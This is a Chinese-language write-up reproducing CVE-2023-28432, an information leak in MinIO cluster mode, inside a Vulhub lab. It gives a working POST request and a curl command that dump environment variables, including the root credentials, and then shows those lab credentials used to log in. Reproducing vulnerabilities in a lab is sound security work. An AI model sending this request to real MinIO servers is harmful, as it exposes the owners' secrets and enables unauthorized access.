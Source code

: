 # CVE-2023-28432

> **Create by：** A-little-dragon
>
> **Team：** TracelessSec
>
> **漏洞描述：** MinIO集群模式信息泄漏

# 0x01 漏洞描述

MinIO是一个开源对象存储系统。

集群模式部署下存在一处信息泄露漏洞，攻击者可以通过发送一个POST数据包获取进程所有的环境变量，其中就包含账号密码MINIO_SECRET_KEY和MINIO_ROOT_PASSWORD。

# 0x02 影响范围

在其RELEASE.2023-03-20T20-16-18Z版本（不含）以前

# 0x03 环境搭建

Vulhub执行如下命令启动一个MinIO集群，其中包含3个以集群模式运行的服务：

```javascript
docker-compose up -d
```

集群启动后，访问http://your-ip:9001可以查看Web管理页面，访问http://your-ip:9000是API服务。

 ![](image/75ad6200-bcdb-4c30-8d97-ec787ee64ca8.png)

# 0x04 漏洞复现

这个漏洞存在于API节点http://your-ip:9000/minio/bootstrap/v1/verify上，发送如下数据包即可查看泄露的环境变量：

```javascript
POST /minio/bootstrap/v1/verify HTTP/1.1
Host: your-ip:9000
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.178 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
```

 ![](image/dd6c223b-d297-4cce-b493-2473c4aaf216.png)也可以直接 curl：

```javascript
curl -XPOST http://your-ip:9000/minio/bootstrap/v1/verify
```

可见，其中包含MINIO_ROOT_USER (accessKey)和MINIO_ROOT_PASSWORD (secretKey)。使用这个账号密码，即可成功登录管理后台：

```javascript
MINIO_ROOT_USER		minioadmin
MINIO_ROOT_PASSWORD	minioadmin-vulhub
```

 ![](image/f39d3e3c-3e84-4bc4-abfd-2ef83ed89d47.png)
